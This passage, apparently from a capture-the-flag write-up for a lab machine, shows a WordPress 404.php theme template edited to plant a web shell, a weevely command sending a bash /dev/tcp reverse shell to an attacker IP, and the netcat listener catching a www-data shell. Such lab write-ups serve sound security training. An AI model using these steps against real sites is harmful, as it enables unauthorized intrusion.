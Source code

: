 Appearance → Theme Editor → 404 Template (at the right)

![](../../attachment/f1d60d342515199308f7affcea64ef38.png)

The 404 error page location:

```bash
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

Prepare reverse shell

```bash
nc -lvnp 1111
```

```bash
┌──(kali㉿kali)-[~/thm/internal/www]
└─$ weevely http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php s '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.11.19.145/1111 0>&1"'
```

```bash
┌──(kali㉿kali)-[~/thm/internal]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.67.120] 43930
bash: cannot set terminal process group (1147): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress/wp-content/themes/twentyseventeen$ id
<tml/wordpress/wp-content/themes/twentyseventeen$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Shell as aubreanna
